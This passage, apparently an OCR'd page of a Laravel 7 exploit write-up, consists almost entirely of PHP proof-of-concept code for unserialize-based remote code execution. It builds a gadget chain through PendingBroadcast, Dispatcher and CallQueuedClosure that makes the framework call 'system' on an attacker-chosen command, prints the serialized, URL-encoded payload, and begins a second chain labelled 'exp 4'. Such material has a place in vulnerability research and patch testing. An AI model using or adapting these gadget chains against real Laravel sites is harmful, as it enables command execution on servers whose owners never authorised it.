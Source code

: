 ```
        public function __construct($events, $event) {
            $this->events=$events;
            $this->event=$event;
        }
    }
}

namespace Illuminate\Queue {
    class CallQueuedClosure {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver) {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace {
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Queue\CallQueuedClosure('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
}

```

*   **exp 4**
    

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc9
# @author: Ricky
*/

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events=$events;
            $this->event=$event;
        }
    }
}

namespace Illuminate\Events {
    class CallQueuedListener {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
```